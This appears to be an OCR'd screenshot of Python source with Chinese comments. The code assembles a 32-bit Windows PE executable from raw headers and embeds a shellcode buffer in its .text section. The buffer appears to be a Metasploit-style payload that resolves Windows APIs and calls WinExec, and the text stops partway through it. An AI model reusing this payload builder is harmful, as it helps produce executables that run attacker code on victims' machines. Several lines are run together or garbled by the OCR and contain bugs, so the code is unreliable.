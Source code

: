 ```
        return size

    def raw(self):
        raw = struct.pack(self.fmt, self.Hint) + self.Name.encode() + b"\x00"
        if len(raw) % 2:
            raw += "\0"  # padding
        return raw


def align(idx, aligment):
    return (idx + aligment) & ~(aligment - 1)def dword(v):
    return struct.pack("<L", v)if __name__ == '__main__':

    length = 0
    mz = DOS_HEADER_32()
    mz.e_lfanew = mz.getSize()
    length += mz.getSize()
    # 设置pe头入口

    pe = IMAGE_NT_HEADER_32()
    pe.file_header.NumberOfSections = 1  # section数量
    pe.file_header.TimeDateStamp = int(time.time())

    pe.file_header.Characteristics = 1 + 2 + 4 + 256
    # refer https://blog.csdn.net/qiming_zhang/article/details/7309909#3.2.2

    pe.optional_header.AddressOfEntryPoint = 0x1000
    pe.optional_header.ImageBase = 0x400000
    pe.optional_header.SectionAlignment = 0x1000
    pe.optional_header.FileAlignment = 0x200
    for i in range(pe.optional_header.NumberOfRvaAndSizes):
        pe.optional_header.DATA_DIRECTORY.append(pe.IMAGE_DATA_DIRECTORY())
    pe.file_header.SizeOfOptionalHeader = pe.optional_header.getSize()
    length += pe.getSize()

    # .text section
    text = Section()
    text.Name = ".text"
    text.Characteristics = IMAGE_SCN_CNT_CODE | IMAGE_SCN_MEM_READ | IMAGE_SCN_MEM_EXECUTE

    text.VirtualAddress = 0x1000
    # .rdataracteristics = IMAGE_SCN_CNT_INITIALIZED_DATA | IMAGE_SCN_MEM_READ

    length += text.getSize()
    # pading
    pe.optional_header.SizeOfHeaders = align(length, pe.optional_header.FileAlignment)
    padding = (pe.optional_header.SizeOfHeaders - length) * b'\x00'
    length = pe.optional_header.SizeOfHeaders

    # 写入text代码
    buf = b""
    buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
    buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
    buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
    buf += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
    buf += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
    buf += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
    buf += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
    buf += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
    buf += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
    buf += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
    buf += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
    buf += b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5"
```